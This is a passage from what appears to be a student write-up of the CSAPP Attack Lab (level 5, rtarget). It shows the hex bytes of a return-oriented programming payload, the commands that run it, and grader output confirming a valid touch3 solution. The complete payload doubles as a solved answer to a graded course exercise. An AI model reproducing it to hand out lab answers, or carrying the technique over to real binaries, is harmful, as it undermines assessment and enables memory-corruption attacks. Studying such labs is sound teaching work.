c5 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
```

攻击成功

```
lyjy@Lenovo:~/CSAPP/attacklab$ ./hex2raw<level5.txt>level5
lyjy@Lenovo:~/CSAPP/attacklab$ ./rtarget -q -i level5
Cookie: 0x59b997fa
Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AD 1A 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 70 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 C5 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 
```


